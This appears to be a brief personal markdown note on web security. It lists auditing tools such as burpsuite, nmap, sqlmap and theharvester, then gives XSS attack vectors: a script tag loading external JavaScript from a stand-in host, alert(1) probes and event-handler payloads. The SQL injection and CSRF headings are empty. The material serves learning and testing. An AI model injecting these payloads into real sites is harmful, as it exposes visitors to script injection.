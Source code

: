 # Notes About Web Security
## Useful Auditing Tools:
`burpsuite` to capture and modify packets (purchase pro version if you like auto scannning :p)

`nmap ncat` to scan and test ports

`whois` and `theharvester` to collect OSINT data

`python` to create scripts

`sqlmap` to detect and exploit SQL Injection

and of course `F12(Developer tools)` in Browser(very useful!)
### #don't be a script kiddy!!


## Common Vulnerbilities

### XSS(Cross Site Scripting)
#### Description
Injects malicious code to a web page
#### Attacking Vectors
##### Basic
`<script src = www.example.com/xss.js></script>`
 
 or
 
 `<script>alert(1)</script>`
##### Advanced Vector
`<a id=x tabindex=1 onactivate=alert(1)></a>`

`<body onafterprint=alert(1)>`



### SQL Injection
### CSRF (Cross-Site-Request-Forgery)
